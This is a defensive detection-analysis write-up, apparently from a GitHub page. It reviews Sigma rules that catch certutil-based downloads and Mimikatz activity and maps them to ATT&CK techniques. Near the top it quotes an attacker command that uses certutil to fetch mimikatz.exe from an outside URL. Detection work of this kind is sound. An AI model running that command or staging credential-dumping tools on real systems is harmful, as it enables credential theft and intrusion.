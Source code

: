 # Detection analysis

## What is under attacker control
The threat actor chose to use LOLBIN and LOLBAS as part of their tooling. The TTPs vary in terms of complexity (additional stealth) and associated detection opportunities (behavior vs signature) 
```
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe
```
## What did we actually look for
Rules triggered by elements under attacker control are likely to have a shorter lifetime than those based on behaviors, we need to know where we are on the Pyramid of Pain. 

### Certutil
| # | Search | ATT&CK Techniques | Notes | Dependencies 
| 5 | [net_connection_win_certutil_initiated_connection.yml](https://github.com/SigmaHQ/sigma/blob/6fd57da13139643c6fe3e4a23276ca6ae9a6eec7/rules/windows/network_connection/net_connection_win_certutil_initiated_connection.yml#L2) | [T1105](https://attack.mitre.org/techniques/T1105) | two caracteristics under attacker control:
- the image filename ending with certutil.exe
- specific ports associated with SMB or HTTP traffic | CLI args logging in 4688, Process name (not PID) in Network event (i.e. not the windows firewall) |
| 12 | [proc_creation_win_certutil_download_file_sharing_domains.yml](https://github.com/SigmaHQ/sigma/blob/6fd57da13139643c6fe3e4a23276ca6ae9a6eec7/rules/windows/process_creation/proc_creation_win_certutil_download_file_sharing_domains.yml) | [T1027](https://attack.mitre.org/techniques/T1027) |two caracteristics under attacker control:
- the image filename ending with certutil.exe BUT the rule also specifically looks for Original Filename data. This is very selective.
- commandline arguments looking for known domains for filesharing, assuming there is no Open redirectors in place as part of the delivery. | We've added a dependency on Sysmon due to the presence of original filename | 
| 13 | [proc_creation_win_certutil_download.yml](https://github.com/SigmaHQ/sigma/blob/6fd57da13139643c6fe3e4a23276ca6ae9a6eec7/rules/windows/process_creation/proc_creation_win_certutil_download.yml#L2) | [T1027](https://attack.mitre.org/techniques/T1027)  |two caracteristics under attacker control:
- the image filename ending with certutil.exe BUT the rule also specifically looks for Original Filename data. This is very selective.
- commandline arguments looking for HTTP specifically (not SMB) and a specific verb ('urlcache ' or 'verifyctl '). | CLI args logging in 4688 | 

### Mimikatz
| # | Search | ATT&CK Techniques | Notes | Dependencies 
| 3 | [file_event_win_hktl_mimikatz_files.yml](https://github.com/SigmaHQ/sigma/blob/4f4ef7a8cc077b2b54c71c598db50fe8b1f14d55/rules/windows/file/file_event/file_event_win_hktl_mimikatz_files.yml#L4) | [T1558](https://attack.mitre.org/techniques/T1558) | File extensions, operator decisions, hardcoded behavior of an open source tool | File writes being logged (Security 4663 OR EDR hooks)|
| 21 | [sysmon_mimikatz_detection_lsass.yml](https://github.com/SigmaHQ/sigma/blob/4f4ef7a8cc077b2b54c71c598db50fe8b1f14d55/deprecated/windows/sysmon_mimikatz_detection_lsass.yml#L4) | [T1003](https://attack.mitre.org/techniques/T1003) | Already has silenced normal behavior allowing services and apps, which can be tampered with| Legacy environment, Non default noisy auditing of access |
| 23 | [win_alert_mimikatz_keywords.yml](https://github.com/SigmaHQ/sigma/blob/4f4ef7a8cc077b2b54c71c598db50fe8b1f14d55/rules/windows/builtin/win_alert_mimikatz_keywords.yml#L4) | [T1003.001](https://attack.mitre.org/techniques/T1003/001), [T1003.002](https://attack.mitre.org/techniques/T1003/002), [T1003.004](https://attack.mitre.org/techniques/T1003/004), [T1003.006](https://attack.mitre.org/techniques/T1003/006) | Keywords found in CLI only, operator decisions, hardcoded behavior of an open source tool | CLI args logging in 4688, 4663 auditing |

### Why LOLBAS are so challenging
Exploit developers think in terms of "primitives" e.g. write what where<REF https://cwe.mitre.org/data/definitions/123.html>. In many environments, the use of certutil.exe is supposed to be rare. It is a so-called LOLBIN - Living Off the Land Binary, part of the bigger LOLBAS (Applications and Scripts) family <REF https://lolbas-project.github.io/>. Certutil's value its features and the fact that is signed by Microsoft and already installed. This offers one less "feature" or "capability" that the authors need to develop and embed in their toolkit to achieve their objectives. Detection opportunities for LOLBAS are multiple, and can yield some false positives as well as strong signals. 
